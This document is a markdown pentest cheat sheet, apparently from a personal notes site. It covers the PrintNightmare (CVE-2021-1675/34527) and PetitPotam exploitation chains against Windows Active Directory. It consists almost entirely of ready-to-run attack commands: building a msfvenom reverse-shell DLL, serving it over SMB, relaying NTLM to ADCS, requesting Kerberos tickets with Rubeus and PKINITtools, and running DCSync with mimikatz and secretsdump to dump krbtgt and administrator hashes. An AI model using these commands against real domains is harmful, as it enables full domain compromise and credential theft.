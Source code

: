 ```yaml
---
layout: app
title: "PrintNigthmare"
tags: ["PrintNigthmare","cve-2021-34527", "Windows", "AD","Print Spool Service", "CVE-2021-1675","Local Privilege Scalation"]

---
```


# PrintNigthMare

This is a vulnerability that allows the use of the Windows Spooler Service to run remote code

## Detect 
Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target.

```python
impacket-rpcdump @<IP> | grep -E 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote                     
Protocol: [MS-RPRN]: Print System Remote Protocol

```
After confirming this, we can proceed with attempting to use the exploit. We can begin by crafting a DLL payload using msfvenom.


[https://www.sygnia.co/threat-reports-and-advisories/demystifying-the-print-nightmare-vulnerability/](https://www.sygnia.co/threat-reports-and-advisories/demystifying-the-print-nightmare-vulnerability/)

## CVE-2021-34527 (LPE)

[https://github.com/JohnHammond/CVE-2021-34527/tree/master](https://github.com/JohnHammond/CVE-2021-34527/tree/master)

## CVE-2021-1675 (RCE)

[https://github.com/cube0x0/CVE-2021-1675/tree/main](https://github.com/cube0x0/CVE-2021-1675/tree/main)

### Exploit

Create a dll with msfvenom
```bash
msfvenom -p /windows/x64/reverse_tcp LHOST=[host] LPORT=[port] -f dll > dll.dll
```
Share file using smbserver
```bash
smbserver.py -smb2support share dll.dll
```

Start msf with multi handler

Run the exploit
```
python CVE-2021-1675.py [domain]/[username]:password@IP '\\192.168.217.129\share\backupscript.dll'     
```

# PetitPotam (MS-EFSRPC)

[CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)

## Exploit

Start ntlm relay
```bash
sudo ntlmrelayx.py -debug -smb2support --target http://crtp.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

In other window run [PetitPotam.py](https://github.com/topotam/PetitPotam)
```bash
python3 PetitPotam.py 172.16.5.225 172.16.5.5 
```

With base64 certificate result:

### Requesting a TGT Using gettgtpkinit.py from PKINITtools

```bash
python3 gettgtpkinit.py crtp.LOCAL/C01\$ -pfx-base64 [base64value]
```

### Rubeus

Once we obtain the base64 certificate via ntlmrelayx.py, we could use the certificate with the Rubeus tool on a Windows attack host to request a TGT ticket and perform a pass-the-ticket (PTT) attack all at once.

```powershell
.\Rubeus.exe asktgt /user:DC01$ /certificate:[base64 certificate] /ptt
```

### Performing DCSync with Mimikatz

```powershell
.\mimikatz.exe
mimikatz # lsadump::dcsync /user:crtp\krbtgt

```

### Setting the KRB5CCNAME Environment Variable

```bash
export KRB5CCNAME=dc01.ccache
```

### Using Domain Controller TGT to DCSync

```bash
secretsdump.py -just-dc-user crtp/administrator -k -no-pass "DC01$"@DC01.CRTP.LOCAL
```

**This tool will retrieve the username from the ccache file.**

> We can see this by typing klist (using the klist command requires installation of the krb5-user package on our attack host. This is installed on ATTACK01 in the lab already).

> apt install krb5-user

### Confirming Admin Access to the Domain Controller

```
NetExec smb [IP ADDRESS] -u administrator -H [HASH]
```

### Submitting a TGS Request for Ourselves Using getnthash.py

We can also take an alternate route once we have the TGT for our target. Using the tool getnthash.py from PKINITtools we could request the NT hash for our target host/user by using Kerberos U2U to submit a TGS request with the Privileged Attribute Certificate (PAC) which contains the NT hash for the target. This can be decrypted with the AS-REP encryption key we obtained when requesting the TGT earlier.

```bash
python /PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 crtp.LOCAL/DC01$
```

### Using Domain Controller NTLM Hash to DCSync
```bash
secretsdump.py -just-dc-user crtp/administrator "DC01$"@[IP Address] -hashes [HASH]
```